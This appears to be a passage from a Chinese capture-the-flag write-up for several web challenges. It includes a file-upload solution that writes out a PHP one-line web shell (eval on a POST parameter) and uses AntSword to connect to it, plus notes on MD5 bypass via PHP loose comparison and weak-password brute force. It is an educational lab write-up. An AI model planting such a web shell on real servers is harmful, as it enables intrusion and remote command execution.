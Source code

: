 ```
一句话木马（One-Liner Trojan）是一种恶意软件的变种，它以一行简短的代码形式存在，用于在受害者的系统上执行恶意操作。这种木马通常是通过利用脚本语言（如PHP、Python、JavaScript等）的灵活性和强大功能来实现的。

一句话木马的目标是将恶意代码嵌入到合法的代码中，使其在受害者系统上执行，从而实现攻击者的恶意目的。攻击者可以通过各种方式将一句话木马注入到目标系统中，例如通过漏洞利用、社会工程等手段。

一句话木马通常具有以下特点：

简短的代码：一句话木马通常以一行代码的形式存在，这使得它们很容易隐藏和传播。

功能强大：尽管代码很短，但一句话木马通常具有强大的功能，例如远程命令执行、文件上传、系统信息收集等。

隐蔽性：一句话木马通常会使用各种技术来隐藏自身，例如使用特殊字符、加密、编码等。

跨平台：一句话木马可以用于多种脚本语言，因此可以在不同的操作系统和环境中使用。
```
思路分析：此题给出的情景为文件上传，我们可以尝试上传几个不同类型的文件，发现其对php文件开放上传，查阅相关资料可以知道，我们能够通过植入一句话木马打开网站后台，从而找到网站目录中的flag
解题步骤：
```php
1.编写一句话木马
<?php @eval($_POST['shell']);?>
```
```
2.上传到网站目录中
```
![](http://image.penguinway.space/i/2023/11/04/65462ec8a8316.png)
```
3.通过AntSword工具激活目录中的一句话木马，打开网站后台
```
![](http://image.penguinway.space/i/2023/11/04/65462f0be5ce6.png)
```
4.通过终端进入网站目录，发现flag.out文件，执行得到flag
```
![](http://image.penguinway.space/i/2023/11/04/65462f5f9dce2.png)
### [Web]相同孰不相同？
- MD5绕过
相关链接：[MD5绕过技巧](https://pankas.top/2022/03/11/%E5%85%B3%E4%BA%8Emd5%E7%9A%84%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7/)
```
MD5是一种常见的哈希算法，用于将任意长度的数据转换为固定长度的哈希值。然而，由于MD5算法的特性，它存在一些安全性问题，使得可能存在MD5绕过的情况。

MD5绕过是指通过一些技术手段，以不同的方式生成相同的MD5哈希值，从而绕过原本的安全机制。主要的MD5绕过技术包括以下几种：

彩虹表攻击：彩虹表是一种预先计算好的哈希值与对应的明文之间的映射表。攻击者可以使用彩虹表来查找与目标MD5哈希值相匹配的明文，从而绕过MD5的安全性。这种攻击方式需要大量的计算和存储资源。

哈希碰撞：哈希碰撞是指找到两个不同的输入，但它们的MD5哈希值相同。攻击者可以通过特殊的算法和计算资源来生成具有相同MD5哈希值的不同输入，从而绕过MD5的安全性。

预计算攻击：攻击者可以事先计算大量常见密码、字典中的单词或常见字符串的MD5哈希值，并将其存储在数据库中。然后，当需要绕过MD5时，攻击者可以直接在数据库中查找相应的哈希值，以获取对应的明文。
```
思路分析：观察php代码可知，本题需要我们传入两个参数a b，同时对这两个参数做MD5编码，当编码相等时，即显示flag，我们可以通过正向思维进行MD5碰撞，也可以通过逆向思维，尝试绕过MD5验证，这里我们使用绕过法
解题步骤：
```
观察代码可以知道，我们可以通过php弱类型比较漏洞来绕过MD5验证，绕过方法如下图
```
![](http://image.penguinway.space/i/2023/11/04/654631639f630.png)
```
尝试上面的传入参数得到flag
```
![](http://image.penguinway.space/i/2023/11/04/654631da7f9e3.png)
### [Web]登录？登录！
思路分析：此题没有给过多提示，猜测其为弱口令爆破攻击，根据常用弱口令攻击得到flag